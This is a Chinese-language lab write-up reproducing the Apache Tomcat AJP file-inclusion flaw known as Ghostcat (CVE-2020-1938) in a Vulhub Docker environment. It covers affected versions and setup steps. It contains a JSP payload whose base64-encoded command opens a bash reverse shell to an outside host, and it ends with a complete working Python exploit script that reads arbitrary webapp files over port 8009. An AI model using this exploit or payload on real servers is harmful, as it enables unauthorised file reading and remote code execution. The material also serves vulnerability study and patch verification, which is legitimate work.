





Apache Tomcat AJP 文件包含漏洞 CVE-2020-1938¶
漏洞描述¶
Java 是目前 Web 开发中最主流的编程语言，而 Tomcat 是当前最流行的 Java 中间件服务器之一，从初版发布到现在已经有二十多年历史，在世界范围内广泛使用。
Ghostcat（幽灵猫） 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。
参考链接：
- https://www.chaitin.cn/zh/ghostcat
- https://www.cnvd.org.cn/webinfo/show/5415
- https://mp.weixin.qq.com/s/D1hiKJpah3NhEBLwtTodsg
- https://mp.weixin.qq.com/s/GzqLkwlIQi_i3AVIXn59FQ
漏洞影响¶
Apache Tomcat 6
Apache Tomcat 7 < 7.0.100
Apache Tomcat 8 < 8.5.51
Apache Tomcat 9 < 9.0.31
环境搭建¶
Vulhub执行如下命令启动一个Tomcat 9.0.30：
docker-compose up -d
环境启动后，访问http://your-ip:8080即可查看tomcat默认页面，此时通过AJP协议的8009端口亦可访问Tomcat。
漏洞复现¶
利用如下工具均可测试漏洞：
通过漏洞POCCNVD-2020-10487-Tomcat-Ajp-lfi进行测试，注意，代码基于python2环境。
读取WEB-INF/web.xml文件：

在docker的ROOT目录下新建文件用来测试是否可以成功读取，首先进入容器新建一个flag.txt文件：
[root@VM-16-16-centos CVE-2020-1938]# docker exec -it fbe4 /bin/bash
root@fbe43a63b620:/usr/local/tomcat# cd webapps/ROOT/
root@fbe43a63b620:/usr/local/tomcat/webapps/ROOT# echo "flag{Woooooooo}" > flag.txt
执行CNVD-2020-10487-Tomcat-Ajp-lfi.py读取flag.txt文件，读取成功：
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f flag.txt

反弹shell¶
该漏洞需要配合文件上传漏洞才能利用，假设服务器已经有了存在一个txt文件，里面的内容可以执行任意命令（实际情况中，要利用目标服务器的文件上传功能上传文件）。
构造payload：

<%
java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDIuMjM3xxxxxxxxkgMD4mMQ==}|{base64,-d}|{bash,-i}").getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");%>
将内容保存在txt文件里，使用命令将txt文件复制到服务器的ROOT路径：
[root@VM-16-16-centos CVE-2020-1938]# docker cp shell.txt fbe4:/usr/local/tomcat/webapps/ROOT/
要想实现文件包含，必须要运行包含的文件，所以目标文件需要是jsp。
此处需要修改CNVD-2020-10487-Tomcat-Ajp-lfi.py脚本中的文件名asdf为asdf.jsp：

执行CNVD-2020-10487-Tomcat-Ajp-lfi.py读取shell.txt文件，执行反弹shell命令：
python CNVD-2020-10487-Tomcat-Ajp-lfi-shell.py 127.0.0.1 -p 8009 -f shell.txt
监听6666端口，成功接收反弹shell：

漏洞POC¶
#!/usr/bin/env python
#CNVD-2020-10487 Tomcat-Ajp lfi
#by ydhcui
import struct
# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
def pack_string(s):
if s is None:
return struct.pack(">h", -1)
l = len(s)
return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
def unpack(stream, fmt):
size = struct.calcsize(fmt)
buf = stream.read(size)
return struct.unpack(fmt, buf)
def unpack_string(stream):
size, = unpack(stream, ">h")
if size == -1: # null string
return None
res, = unpack(stream, "%ds" % size)
stream.read(1) # \0
return res
class NotFoundException(Exception):
pass
class AjpBodyRequest(object):
# server == web server, container == servlet
SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
MAX_REQUEST_LENGTH = 8186
def __init__(self, data_stream, data_len, data_direction=None):
self.data_stream = data_stream
self.data_len = data_len
self.data_direction = data_direction
def serialize(self):
data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)
if len(data) == 0:
return struct.pack(">bbH", 0x12, 0x34, 0x00)
else:
res = struct.pack(">H", len(data))
res += data
if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:
header = struct.pack(">bbH", 0x12, 0x34, len(res))
else:
header = struct.pack(">bbH", 0x41, 0x42, len(res))
return header + res
def send_and_receive(self, socket, stream):
while True:
data = self.serialize()
socket.send(data)
r = AjpResponse.receive(stream)
while r.prefix_code != AjpResponse.GET_BODY_CHUNK and r.prefix_code != AjpResponse.SEND_HEADERS:
r = AjpResponse.receive(stream)
if r.prefix_code == AjpResponse.SEND_HEADERS or len(data) == 4:
break
class AjpForwardRequest(object):
_, OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE, PROPFIND, PROPPATCH, MKCOL, COPY, MOVE, LOCK, UNLOCK, ACL, REPORT, VERSION_CONTROL, CHECKIN, CHECKOUT, UNCHECKOUT, SEARCH, MKWORKSPACE, UPDATE, LABEL, MERGE, BASELINE_CONTROL, MKACTIVITY = range(28)
REQUEST_METHODS = {'GET': GET, 'POST': POST, 'HEAD': HEAD, 'OPTIONS': OPTIONS, 'PUT': PUT, 'DELETE': DELETE, 'TRACE': TRACE}
# server == web server, container == servlet
SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
COMMON_HEADERS = ["SC_REQ_ACCEPT",
"SC_REQ_ACCEPT_CHARSET", "SC_REQ_ACCEPT_ENCODING", "SC_REQ_ACCEPT_LANGUAGE", "SC_REQ_AUTHORIZATION",
"SC_REQ_CONNECTION", "SC_REQ_CONTENT_TYPE", "SC_REQ_CONTENT_LENGTH", "SC_REQ_COOKIE", "SC_REQ_COOKIE2",
"SC_REQ_HOST", "SC_REQ_PRAGMA", "SC_REQ_REFERER", "SC_REQ_USER_AGENT"
]
ATTRIBUTES = ["context", "servlet_path", "remote_user", "auth_type", "query_string", "route", "ssl_cert", "ssl_cipher", "ssl_session", "req_attribute", "ssl_key_size", "secret", "stored_method"]
def __init__(self, data_direction=None):
self.prefix_code = 0x02
self.method = None
self.protocol = None
self.req_uri = None
self.remote_addr = None
self.remote_host = None
self.server_name = None
self.server_port = None
self.is_ssl = None
self.num_headers = None
self.request_headers = None
self.attributes = None
self.data_direction = data_direction
def pack_headers(self):
self.num_headers = len(self.request_headers)
res = ""
res = struct.pack(">h", self.num_headers)
for h_name in self.request_headers:
if h_name.startswith("SC_REQ"):
code = AjpForwardRequest.COMMON_HEADERS.index(h_name) + 1
res += struct.pack("BB", 0xA0, code)
else:
res += pack_string(h_name)
res += pack_string(self.request_headers[h_name])
return res
def pack_attributes(self):
res = b""
for attr in self.attributes:
a_name = attr['name']
code = AjpForwardRequest.ATTRIBUTES.index(a_name) + 1
res += struct.pack("b", code)
if a_name == "req_attribute":
aa_name, a_value = attr['value']
res += pack_string(aa_name)
res += pack_string(a_value)
else:
res += pack_string(attr['value'])
res += struct.pack("B", 0xFF)
return res
def serialize(self):
res = ""
res = struct.pack("bb", self.prefix_code, self.method)
res += pack_string(self.protocol)
res += pack_string(self.req_uri)
res += pack_string(self.remote_addr)
res += pack_string(self.remote_host)
res += pack_string(self.server_name)
res += struct.pack(">h", self.server_port)
res += struct.pack("?", self.is_ssl)
res += self.pack_headers()
res += self.pack_attributes()
if self.data_direction == AjpForwardRequest.SERVER_TO_CONTAINER:
header = struct.pack(">bbh", 0x12, 0x34, len(res))
else:
header = struct.pack(">bbh", 0x41, 0x42, len(res))
return header + res
def parse(self, raw_packet):
stream = StringIO(raw_packet)
self.magic1, self.magic2, data_len = unpack(stream, "bbH")
self.prefix_code, self.method = unpack(stream, "bb")
self.protocol = unpack_string(stream)
self.req_uri = unpack_string(stream)
self.remote_addr = unpack_string(stream)
self.remote_host = unpack_string(stream)
self.server_name = unpack_string(stream)
self.server_port = unpack(stream, ">h")
self.is_ssl = unpack(stream, "?")
self.num_headers, = unpack(stream, ">H")
self.request_headers = {}
for i in range(self.num_headers):
code, = unpack(stream, ">H")
if code > 0xA000:
h_name = AjpForwardRequest.COMMON_HEADERS[code - 0xA001]
else:
h_name = unpack(stream, "%ds" % code)
stream.read(1) # \0
h_value = unpack_string(stream)
self.request_headers[h_name] = h_value
def send_and_receive(self, socket, stream, save_cookies=False):
res = []
i = socket.sendall(self.serialize())
if self.method == AjpForwardRequest.POST:
return res
r = AjpResponse.receive(stream)
assert r.prefix_code == AjpResponse.SEND_HEADERS
res.append(r)
if save_cookies and 'Set-Cookie' in r.response_headers:
self.headers['SC_REQ_COOKIE'] = r.response_headers['Set-Cookie']
# read body chunks and end response packets
while True:
r = AjpResponse.receive(stream)
res.append(r)
if r.prefix_code == AjpResponse.END_RESPONSE:
break
elif r.prefix_code == AjpResponse.SEND_BODY_CHUNK:
continue
else:
raise NotImplementedError
break
return res
class AjpResponse(object):
_,_,_,SEND_BODY_CHUNK, SEND_HEADERS, END_RESPONSE, GET_BODY_CHUNK = range(7)
COMMON_SEND_HEADERS = [
"Content-Type", "Content-Language", "Content-Length", "Date", "Last-Modified",
"Location", "Set-Cookie", "Set-Cookie2", "Servlet-Engine", "Status", "WWW-Authenticate"
]
def parse(self, stream):
# read headers
self.magic, self.data_length, self.prefix_code = unpack(stream, ">HHb")
if self.prefix_code == AjpResponse.SEND_HEADERS:
self.parse_send_headers(stream)
elif self.prefix_code == AjpResponse.SEND_BODY_CHUNK:
self.parse_send_body_chunk(stream)
elif self.prefix_code == AjpResponse.END_RESPONSE:
self.parse_end_response(stream)
elif self.prefix_code == AjpResponse.GET_BODY_CHUNK:
self.parse_get_body_chunk(stream)
else:
raise NotImplementedError
def parse_send_headers(self, stream):
self.http_status_code, = unpack(stream, ">H")
self.http_status_msg = unpack_string(stream)
self.num_headers, = unpack(stream, ">H")
self.response_headers = {}
for i in range(self.num_headers):
code, = unpack(stream, ">H")
if code <= 0xA000: # custom header
h_name, = unpack(stream, "%ds" % code)
stream.read(1) # \0
h_value = unpack_string(stream)
else:
h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]
h_value = unpack_string(stream)
self.response_headers[h_name] = h_value
def parse_send_body_chunk(self, stream):
self.data_length, = unpack(stream, ">H")
self.data = stream.read(self.data_length+1)
def parse_end_response(self, stream):
self.reuse, = unpack(stream, "b")
def parse_get_body_chunk(self, stream):
rlen, = unpack(stream, ">H")
return rlen
@staticmethod
def receive(stream):
r = AjpResponse()
r.parse(stream)
return r
import socket
def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):
fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)
fr.method = method
fr.protocol = "HTTP/1.1"
fr.req_uri = req_uri
fr.remote_addr = target_host
fr.remote_host = None
fr.server_name = target_host
fr.server_port = 80
fr.request_headers = {
'SC_REQ_ACCEPT': 'text/html',
'SC_REQ_CONNECTION': 'keep-alive',
'SC_REQ_CONTENT_LENGTH': '0',
'SC_REQ_HOST': target_host,
'SC_REQ_USER_AGENT': 'Mozilla',
'Accept-Encoding': 'gzip, deflate, sdch',
'Accept-Language': 'en-US,en;q=0.5',
'Upgrade-Insecure-Requests': '1',
'Cache-Control': 'max-age=0'
}
fr.is_ssl = False
fr.attributes = []
return fr
class Tomcat(object):
def __init__(self, target_host, target_port):
self.target_host = target_host
self.target_port = target_port
self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
self.socket.connect((target_host, target_port))
self.stream = self.socket.makefile("rb", bufsize=0)
def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
self.req_uri = req_uri
self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
if user is not None and password is not None:
self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
for h in headers:
self.forward_request.request_headers[h] = headers[h]
for a in attributes:
self.forward_request.attributes.append(a)
responses = self.forward_request.send_and_receive(self.socket, self.stream)
if len(responses) == 0:
return None, None
snd_hdrs_res = responses[0]
data_res = responses[1:-1]
if len(data_res) == 0:
print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
return snd_hdrs_res, data_res
'''
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
'''
import argparse
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/asdf',attributes=[
{'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
{'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
{'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
])
print('----------------------------')
print("".join([d.data for d in data]))